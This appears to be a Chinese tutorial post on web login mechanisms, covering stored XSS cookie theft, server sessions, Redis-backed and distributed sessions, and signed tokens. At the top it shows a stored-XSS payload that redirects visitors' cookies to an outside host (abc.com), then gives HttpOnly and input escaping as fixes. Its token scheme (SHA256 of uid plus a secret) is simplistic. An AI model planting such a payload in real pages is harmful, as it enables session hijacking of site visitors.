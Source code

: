     <script>window.location=http://abc.com?cookie=docuemnt.cookie</script>

我的留言被存入数据库，并再其他人访问时从数据库查询出来，并加载到页面中，则该脚本生效，我就获取到了访问者的cookie

一般cookie会存储登录状态，这是我就可以用这个cookie伪装他的身份登录

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

最好还是要将从用户得到的信息在存入数据库之前进行转义，这样更安全

# session
通过客户端的cookie中携带的sessionid可以在服务器上维护一个对应的session

session一般是类似 map\[key]data 的数据结构，

所以可以通过session维护用户的登录操作，具体实现如下：

1. 接受到一个请求，获取请求中request的cookie值，如果检查有sessionid且值存在服务器，则用户已经登录，通过sessionid获取session，从session中获取用户身份信息，否则用户未登录
2. 跳转用户登录，验证账号密码，response中设置cookie：sessionid=xxxxx，在服务器创建session，将session中存入一个数据(例如：userid)保存用户身份信息

## 单机
这种登录方式很简单，但是局限于单机应用，如果几十万的用户登录，一个服务器维护几十万session，就很吃力了，如果采用多个机器负载均衡，就要两个机器间同步session，否则第二次请求发到没有session的机器上，就要重新登录，局限太多

## 缓存
于是就有了缓存技术，用一个机器运行类redis数据库专门存储session，所有机器都去redis机器查，但是这个机器挂了所有人就要重新登录一次了,gg

为了避免单节点失效，就有了分布式session，为了存个session搞这么大的事，cookieid还容易被劫持，真麻烦，有没有简单方法

## token
要是能把session存在客户端就好了，众所周知这是不安全的，要是能让他安全存在客户端，就不用操心session存储和cookie劫持了

回到起点想一想session的作用，如果用户登录就给他创建一个session返回cookie，通过cookieid查找session，通过查找结果就能知道是否登录

1. 用户账号密码登录
2. 服务器验证，成功后创建sessionid-value，将sessionid作为cookie值返回
3. 用户访问同一个域名下的网页自动携带cookie即sessionid
4. 服务器获取cookie，得到sessionid，查找对应value，获取用户登录状态以及其他信息

其本质就是维护一个登录状态，为什么不直接返回cookie维护呢？因为用户可以在客户端伪造cookie，但他无法在服务器上伪造session

如果我们创造一个只有登录后才会有且无法伪造的cookie，服务端就不需要维护session，登录状态维护在客户端，问题就解决了

来吧万能的加密算法

我们可以将 **SHA256(uid + 秘钥) 得到一个token**，返回给客户端让他以后登录都带着token，这个秘钥他不知道，所以客户端无法伪造，而服务端可以通过秘钥检测token是否正确。就解决了sessionid的问题，但是token还是能被劫持！

基于token的认证服务如下

1. 用户账号密码登录
2. 服务器验证，正确后查找uid，token=单向加密算法(登录状态 + 秘钥)，将登录状态+token返回给客户端
3. 用户访问该域名(或还能指定其他域名)时自动携带
4. 服务器验证token是否正确，判断登录状态

